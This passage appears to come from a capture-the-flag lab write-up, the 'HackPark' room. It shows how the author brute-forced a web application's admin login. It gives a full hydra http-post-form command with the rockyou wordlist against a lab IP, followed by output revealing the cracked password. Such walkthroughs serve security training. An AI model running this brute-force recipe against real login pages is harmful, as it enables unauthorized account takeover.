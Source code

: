 ![hack park password retreival](/static/img/hackpark_http_password_retrieval.png)

Given this supposed user, and that the earlier broad scan yielded nothing, I chose to kick off a background dictionary attack against the `admin` user while I continued to dig around in the site.

### Brute forcing the login page

I returned to the login page and tried an `admin:test` login to try to identify an element that I could use for a failure parameter in hydra. Failed logins spit out a very simple to match `Login failed` string. I grabbed the rest of the post body from Burp and started a brute with hydra, using rockyou as the source dictionary.

```bash
[*] exec: hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.167.66 http-post-form "/Account/login.aspx:__VIEWSTATE=n0dSQaeIUU9td9IiqqxUjQRLt5Vfe9tKftxi264M8uj5KA0zULHSKHjNdqwkzcbSpoimIX3xFLnJz6eAk2EmBlJx3HWWy14YxvnbwBNZczvzFuWjEwLsnVK622pYz9Cw7VQBjYDmS0PHqL0lcA5jxvCn9ILgh4J5Oh8k66K0JOnmXtVC&__EVENTVALIDATION=xjUAebAft2KQN5MffRGhUH5IgDIw1wmzjlNgpt8Vb4N2656viCANryx5yExK93%2BExMUVpVlU%2B%2BHh7jZwqAaf0sH%2Fmg1JISBvUobZVuCj573XBsDtL%2BRyJMOr%2BNWlN4XXAuWjifxkURjzlElA8RJsOQnoIxK8J2daZrZu0wEFAHgf62F0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-18 22:28:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.167.66:80/Account/login.aspx:__VIEWSTATE=n0dSQaeIUU9td9IiqqxUjQRLt5Vfe9tKftxi264M8uj5KA0zULHSKHjNdqwkzcbSpoimIX3xFLnJz6eAk2EmBlJx3HWWy14YxvnbwBNZczvzFuWjEwLsnVK622pYz9Cw7VQBjYDmS0PHqL0lcA5jxvCn9ILgh4J5Oh8k66K0JOnmXtVC&__EVENTVALIDATION=xjUAebAft2KQN5MffRGhUH5IgDIw1wmzjlNgpt8Vb4N2656viCANryx5yExK93%2BExMUVpVlU%2B%2BHh7jZwqAaf0sH%2Fmg1JISBvUobZVuCj573XBsDtL%2BRyJMOr%2BNWlN4XXAuWjifxkURjzlElA8RJsOQnoIxK8J2daZrZu0wEFAHgf62F0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.167.66   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-18 22:29:01
```
